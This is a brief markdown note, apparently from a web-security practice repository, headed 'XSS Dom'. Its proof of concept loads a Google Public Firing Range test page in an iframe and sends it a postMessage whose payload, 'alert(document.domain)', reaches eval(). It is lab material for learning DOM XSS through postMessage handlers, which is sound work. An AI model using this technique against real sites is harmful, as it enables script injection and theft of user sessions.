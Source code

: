 <h1>XSS Dom</h1>
Eval(), Window.addEvenListener(message)

```js
<iframe id="target" src="https://public-firing-range.appspot.com/dom/toxicdom/postMessage/complexMessageDocumentWriteEval"></iframe>
    <script>
        var a = document.getElementById('target');
        a.addEventListener('load',() => {
            target.contentWindow.postMessage({"action":"exec","payload":"alert(document.domain)"},"*")
        })
  </script>
```

